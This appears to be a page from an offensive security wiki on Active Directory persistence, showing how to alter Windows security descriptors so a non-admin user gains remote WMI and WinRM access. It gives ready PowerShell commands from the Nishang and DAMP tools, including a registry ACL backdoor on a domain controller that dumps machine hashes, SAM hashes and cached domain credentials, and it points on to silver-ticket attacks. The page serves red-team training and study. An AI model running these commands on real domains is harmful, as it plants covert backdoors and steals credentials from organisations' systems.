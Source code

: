 # Security Descriptors





## Security Descriptors

[From the docs](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language): Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL: `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;`

The **security descriptors** are used to **store** the **permissions** an **object** has **over** an **object**. If you can just **make** a **little change** in the **security descriptor** of an object, you can obtain very interesting privileges over that object without needing to be member of a privileged group.

Then, this persistence technique is based on the ability to win every privilege needed against certain objects, to be able to perform a task that usually requires admin privileges but without the need of being admin.

### Access to WMI

You can give a user access to **execute remotely WMI** [**using this**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1):

```bash
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose #Remove
```

### Access to WinRM

Give access to **winrm PS console to a user** [**using this**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)**:**

```bash
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Verbose
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Remove #Remove
```

### Remote access to hashes

Access the **registry** and **dump hashes** creating a **Reg backdoor using** [**DAMP**](https://github.com/HarmJ0y/DAMP)**,** so you can at any moment retrieve the **hash of the computer**, the **SAM** and any **cached AD** credential in the computer. So, it's very useful to give this permission to a **regular user against a Domain Controller computer**:

```bash
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```

Check [**Silver Tickets**](silver-ticket.md) to learn how you could use the hash of the computer account of a Domain Controller.




